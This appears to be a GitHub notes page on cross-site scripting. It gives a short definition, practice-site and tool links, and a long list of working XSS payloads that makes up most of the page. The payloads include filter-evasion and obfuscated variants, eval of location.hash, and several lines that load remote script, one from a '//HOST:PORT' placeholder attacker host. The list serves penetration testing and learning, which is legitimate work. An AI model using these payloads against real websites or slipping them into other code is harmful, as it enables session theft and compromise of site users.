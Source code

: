 ## What is XSS?
* Cross-site scripting is a type of security vulnerability that can be found in some web applications. 
* XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users.
* A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

## Timeline

09.08.2024


## Resources

https://portswigger.net/web-security/cross-site-scripting

Cheat sheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

XSS Game to Practice XSS - http://www.xssgame.com/

XSS site to Practice XSS - https://xss-quiz.int21h.jp/

XSS site to Practice XSS - https://xss-game.appspot.com/

https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Cross-Site-Scripting-XSS-Payloads.txt

## Useful Tools 

DOMinator
XSStrike
DalFox

# Payloads

"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<svg onload=alert(1)>
"><svg onload=alert(1)//
"onmouseover=alert(1)//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
'-alert(1)//
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus! 
<x onclick=alert(1)>click this! 
<x oncopy=alert(1)>copy this! 
<x oncontextmenu=alert(1)>right click this! 
<x oncut=alert(1)>copy this! 
<x ondblclick=alert(1)>double click this! 
<x ondrag=alert(1)>drag this! 
<x contenteditable onfocus=alert(1)>focus this! 
<x contenteditable oninput=alert(1)>input here! 
<x contenteditable onkeydown=alert(1)>press any key! 
<x contenteditable onkeypress=alert(1)>press any key! 
<x contenteditable onkeyup=alert(1)>press any key! 
<x onmousedown=alert(1)>click this! 
<x onmousemove=alert(1)>hover this! 
<x onmouseout=alert(1)>hover this! 
<x onmouseover=alert(1)>hover this! 
<x onmouseup=alert(1)>click this! 
<x contenteditable onpaste=alert(1)>paste here!
<script>alert(1)// 
<script>alert(1)<!–
<script src=//brutelogic.com.br/1.js> 
<script src=//3334957647/1>
%3Cx onxxx=alert(1) 
<%78 onxxx=1 
<x %6Fnxxx=1 
<x o%6Exxx=1 
<x on%78xx=1 
<x onxxx%3D1
<X onxxx=1 
<x OnXxx=1 
<X OnXxx=1 
<x onxxx=1 onxxx=1
<x/onxxx=1 
<x%09onxxx=1 
<x%0Aonxxx=1 
<x%0Conxxx=1 
<x%0Donxxx=1 
<x%2Fonxxx=1 
<x 1='1'onxxx=1 
<x 1="1"onxxx=1
<x </onxxx=1 
<x 1=">" onxxx=1 
<http://onxxx%3D1/
<x onxxx=alert(1) 1='
<svg onload=setInterval(function(){with(document)body.appendChild(createElement('script')).src='//HOST:PORT'},0)>
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1=' 
*/alert(1)</script><script>/*
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
<script>alert(1)</script> 
<script src=javascript:alert(1)> 
<iframe src=javascript:alert(1)> 
<embed src=javascript:alert(1)> 
<a href=javascript:alert(1)>click 
<form action=javascript:alert(1)><input type=submit> 
<isindex action=javascript:alert(1) type=submit value=click> 
<form><button formaction=javascript:alert(1)>click 
<form><input formaction=javascript:alert(1) type=submit value=click> 
<form><input formaction=javascript:alert(1) type=image value=click> 
<form><input formaction=javascript:alert(1) type=image src=SOURCE> 
<isindex formaction=javascript:alert(1) type=submit value=click> 
<object data=javascript:alert(1)> 
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<svg><script xlink:href=data:,alert(1) /> 
<math><brute xlink:href=javascript:alert(1)>click 
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&>
<html ontouchstart=alert(1)> 
<html ontouchend=alert(1)> 
<html ontouchmove=alert(1)> 
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
"><img src=1 onerror=alert(1)>.gif
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
<script src="data:&comma;alert(1)//
"><script src=data:&comma;alert(1)//
<script src="//brutelogic.com.br&sol;1.js&num; 
"><script src=//brutelogic.com.br&sol;1.js&num; 
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt; 
"><link rel=import href=data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt;
<base href=//0>
<script/src="data:&comma;eval(atob(location.hash.slice(1)))//#alert(1)
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><a href=#x>click this!#x
<body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x
<body onscroll=alert(1)><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!
<body onhelp=alert(1)>press F1! (MSIE)
<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!
alert`1`
alert&lpar;1&rpar;
alert&#x28;1&#x29
alert&#40;1&#41
(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
navigator.vibrate(500)
eval(URL.slice(-8))>#alert(1)
eval(location.hash.slice(1)>#alert(1)
innerHTML=location.hash>#<script>alert(1)</script>
<a draggable="true" ondrag="alert(1)">test</a>
<a draggable="true" ondragend="alert(1)">test</a>
<a draggable="true" ondragenter="alert(1)">test</a>
<a draggable="true" ondragleave="alert(1)">test</a>
<a draggable="true" ondragstart="alert(1)">test</a>
<a id=x tabindex=1 onactivate=alert(1)></a>
<a id=x tabindex=1 onbeforeactivate=alert(1)></a>
<a id=x tabindex=1 onbeforedeactivate=alert(1)></a><input autofocus>
<a id=x tabindex=1 ondeactivate=alert(1)></a><input id=y autofocus>
<a id=x tabindex=1 onfocus=alert(1)></a>
<a id=x tabindex=1 onfocusin=alert(1)></a>
<a onbeforecopy="alert(1)" contenteditable>test</a>
<a onbeforecut="alert(1)" contenteditable>test</a>
<a onbeforepaste="alert(1)" contenteditable>test</a>
<a onblur=alert(1) tabindex=1 id=x></a><input autofocus>
<a onclick="alert(1)">test</a>
<a oncontextmenu="alert(1)">test</a>
<a oncopy="alert(1)" contenteditable>test</a>
<a oncut="alert(1)" contenteditable>test</a>
<a ondblclick="alert(1)">test</a>
<a onfocusout=alert(1) tabindex=1 id=x></a><input autofocus>
<a onkeydown="alert(1)" contenteditable>test</a>
<a onkeypress="alert(1)" contenteditable>test</a>
<a onkeyup="alert(1)" contenteditable>test</a>
<a onmousedown="alert(1)">test</a>
<a onmouseenter="alert(1)">test</a>
<a onmouseleave="alert(1)">test</a>
<a onmousemove="alert(1)">test</a>
<a onmouseout="alert(1)">test</a>
<a onmouseover="alert(1)">test</a>
<a onmouseup="alert(1)">test</a>
<a onpaste="alert(1)" contenteditable>test</a>
